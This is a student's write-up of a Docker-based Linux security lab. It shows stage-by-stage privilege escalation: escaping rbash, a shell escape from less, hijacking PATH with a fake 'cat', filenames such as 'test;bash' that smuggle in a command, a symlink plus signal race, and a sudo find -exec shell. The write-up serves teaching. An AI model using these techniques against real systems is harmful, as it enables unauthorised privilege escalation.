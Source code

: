 # Cyber Security - Linux Security

**Student: Philip Magnus**

## Preperation

```bash
$ docker load -i unix_basics.tar.gz
$ docker run -it unix_basics
```

First we need to load the docker image into our local image repository with the first command. The second command starts a docker container with the loaded `unix_basics` image and attaches our terminal session to the standard in- and output of the container.

After starting the container we can start exploring the container.

## Stage 0

The container starts with a restricted shell, in the following `rshell`. The rshell doesn't allow us to change the directory we are working in. So to move freely around the container our first task is to break out of the rshell.

```bash
user@2edddc8fc16e:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
user@2edddc8fc16e:~$ ls -la /usr/bin/ | grep bash
-rwxr-xr-x 1 root root   1183448 Jun 18  2020 bash
-rwxr-xr-x 1 root root      6794 Jun 18  2020 bashbug
lrwxrwxrwx 1 root root         4 Jun 18  2020 rbash -> bash
user@2edddc8fc16e:~$ bash
user@2edddc8fc16e:~$ cd /home/stage1
user@2edddc8fc16e:/home/stage1$
```

To get a better overview of the tools at hand we can take a look at the `$PATH` variable. Here we see that the `$PATH` contains the /usr/bin directory. Checking the directory and it's contents reveals executables we can use systemwide without needing to change the working deirectory. 
The /usr/bin directory contains a bash executable. Simply executing the bash command leads to a new session which is no longer restricted as can be shown by simply changing the directory.

## Stage 1

In the C sourcecode for `stage1` we can see that the program is calling the `less` command on a _stage1.txt_ file. `less` allows the execution of commands by typing a `!`in front of the command, for example: `!bash` would execute the bash command.

With the following commands we can gain more privileges by opening a bash session with the group of the `stage1` executable.

With `id` we can confirm the gained group.

```bash
iuser@eabdf37ef1a9:/home/stage1$ ./stage1

# In the opened less window type the following:
# !bash
# Submit the command with enter. less executes the command and starts a shell
# with the rights of the run ./stage1 executable

user@eabdf37ef1a9:/home/stage1$ id
uid=1000(user) gid=1501(stage1) groups=1501(stage1),1000(user)
```

## Stage 2 

The sourcecode of the `stage2` executable shows that the `cat` command is called on a _stage2.txt_ file. 

The command is called without a full path, this means the system needs to find the `cat` executable via it's `$PATH` variable.

We can exploit this with the following steps:

First we create our own `cat` file in a directory for which we have access rights. Into the `cat` file we enter a simple bash script that executes a command, for our example we use the `id` command.

```bash
user@eabdf37ef1a9:/home/stage2$ mkdir /tmp/stage2
user@eabdf37ef1a9:/home/stage2$ vi /tmp/stage2/cat
```

```bash
#!/bin/bash 
id
```

In the second step we set the right to execute our `cat` file for all users. After that we prepend the `$PATH` with the directory containing our `cat` file and execute `stage2`.

Because our `cat` file will be the first one found when looking at the `$PATH` the system will choose the file which we control for execution.

By calling `stage2` we execute our controlled file with the rights of the `stage2` executable.

```bash
user@eabdf37ef1a9:/home/stage2$ chmod a+x /tmp/stage2/cat
user@eabdf37ef1a9:/home/stage2$ PATH=/tmp/stage2/:$PATH ./stage2
uid=1000(user) gid=1502(stage2) groups=1502(stage2),1000(user)
```

## Stage 3 

```bash 
user@eabdf37ef1a9:/home/stage3$ mkdir /tmp/stage3
user@eabdf37ef1a9:/home/stage3$ touch "/tmp/stage3/test;bash"
user@eabdf37ef1a9:/home/stage3$ ./stage3
Please enter the filename you want to access: /tmp/mytmp/test;bash
/tmp/mytmp/test: empty
user@eabdf37ef1a9:/home/stage3$ id
uid=1000(user) gid=1503(stage3) groups=1503(stage3),1000(user)
```

## Stage 4

```bash
user@2edddc8fc16e:/tmp/stage4$ ln -s /home/stage4/stage4 "test;id"
user@2edddc8fc16e:/tmp/stage4$ "./test;id" 5000 & sleep 0; kill -USR1 $!
user@2edddc8fc16e:/tmp/stage4$ interrupt signal caught, terminating ./test
uid=1000(user) gid=1504(stage4) groups=1504(stage4),1000(user)
```

## Stage 5

```bash
user@2edddc8fc16e:/tmp/stage5$ cat /home/stage5/stage5.txt
Wait, there is no executable here? But you are sure there has to be something. After all you saw the "SUpervisoryDataOrganisation" menue entry when you logged in. So there must be one more level of privilege to gain... But how?

-- Check your privilege!
```

```bash
user@2edddc8fc16e:/tmp/stage5$ ls -la /etc/sudoers.d/
total 16
drwxr-xr-x 1 root root 4096 Feb 20  2022 .
drwxr-xr-x 1 root root 4096 Mar  1 19:27 ..
-r--r----- 1 root root  958 Jan 19  2021 README
-rw-r--r-- 1 root root   42 Feb 20  2022 find
user@2edddc8fc16e:/tmp/stage5$ cat /etc/sudoers.d/find
ALL  ALL=(:stage5) NOPASSWD:/usr/bin/find
user@2edddc8fc16e:/tmp/stage5$ sudo -g stage5 find -exec bash ";"
user@2edddc8fc16e:/tmp/stage5$ id
uid=1000(user) gid=1505(stage5) groups=1505(stage5),1000(user)
```